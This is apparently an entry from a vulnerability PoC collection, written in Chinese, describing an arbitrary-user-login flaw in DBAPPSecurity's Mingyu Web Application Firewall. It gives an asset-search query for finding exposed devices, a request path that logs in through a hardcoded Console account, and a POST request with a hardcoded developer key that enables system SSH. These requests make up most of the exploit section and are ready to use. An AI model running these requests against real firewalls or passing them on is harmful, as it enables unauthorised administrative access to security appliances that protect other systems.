



# 安恒 明御WEB应用防火墙 report.php 任意用户登录漏洞

## 漏洞描述

安恒 明御WEB应用防火墙 report.php文件存在硬编码设置的Console用户登录，攻击者可以通过漏洞直接登录后台

## 漏洞影响

```
安恒 明御WEB应用防火墙
```

## 网络测绘

```
app="安恒信息-明御WAF"
```

## 漏洞复现

登录页面


验证POC

```
/report.m?a=rpc-timed
```



再访问主页面跳转配置页面



发送请求包配置系统SSH等

```
POST /system.m?a=reserved
  
key=!@#dbapp-waf-dev-reserved#@!
```

